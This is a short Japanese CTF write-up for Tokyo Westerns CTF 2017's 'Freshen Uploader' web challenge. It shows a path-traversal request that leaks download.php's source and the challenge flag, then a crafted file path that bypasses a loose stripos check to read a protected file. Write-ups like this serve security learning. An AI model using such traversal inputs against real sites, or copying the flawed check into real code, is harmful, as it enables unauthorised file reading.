 ```yaml
---
layout: post
alias: "/blog/2017/09/04/twctf-2017-freshen-uploader/"
date: "2017-09-04T16:40:28+09:00"
title: "Tokyo Westerns CTF 3rd 2017: Freshen Uploader"
tags: [ "ctf", "writeup", "twctf", "web", "php" ]
---
```


動的scoringと基本点の結果によりWelcome問より得点が低いの好き。

## solution

### 1

<http://fup.chal.ctf.westerns.tokyo/download.php?f=../index.php> のようにすれば`index.php`, `download.php`が取れる。

`download.php`:

``` php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Contest-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

### 2

`file_list.php`を読みたいが普通に読みにいくと弾かれる。

`stripos($filename, 'file_list') != false` してるが`stripos`が返すのはindexなので: <http://fup.chal.ctf.westerns.tokyo/download.php?f=file_list/../../file_list.php>
